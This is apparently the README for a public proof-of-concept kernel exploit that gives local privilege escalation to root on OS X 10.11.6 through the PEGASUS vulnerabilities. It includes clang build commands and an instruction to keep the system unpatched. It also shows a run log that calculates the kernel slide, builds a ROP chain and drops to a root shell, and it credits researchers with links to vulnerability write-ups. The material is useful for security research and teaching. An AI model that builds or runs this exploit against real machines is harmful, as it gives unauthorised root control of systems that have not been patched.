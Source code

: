  * Local privilege escalation for OS X 10.11.6 via PEGASUS

 * twitter@SparkZheng weibo@蒸米spark

 * Note:   
         1. If you want to test this exp, you should not install Security Update 2016-001 
            (like iOS 9.3.5 patch for PEGASUS).  
         2. I hardcoded a kernel address to calcuate kslide, it maybe different on your mac.  

 
 * Compile:  
   clang -framework IOKit -framework Foundation -framework CoreFoundation -m32 -Wl,-pagezero_size,0 -O3 exp.m lsym.m -o exp

 * Run the exp:  
    MacBookPro:PEGASUS zhengmin$ ./exp   
    getting kslide...  
    kslide=0x8e00000  
    building the rop chain...  
    exploit the kernel...  
    sh-3.2# whoami  
    root  
    sh-3.2# uname -a  
    Darwin MacBookPro 15.6.0 Darwin Kernel Version 15.6.0: Thu Jun 23 18:25:34 PDT 2016; root:xnu-3248.60.10~1/RELEASE_X86_64 x86_64  


 * Special thanks to proteas, qwertyoruiop, windknown, aimin pan, jingle, liangchen, qoobee, 
   cererdlong, eakerqiu, etc.
 
 * Reference:   
              1. http://blog.pangu.io/cve-2016-4655/  
              2. https://sektioneins.de/en/blog/16-09-02-pegasus-ios-kernel-vulnerability-explained.html  
              3. https://bazad.github.io/2016/05/mac-os-x-use-after-free/  
              4. https://github.com/kpwn/tpwn  
   
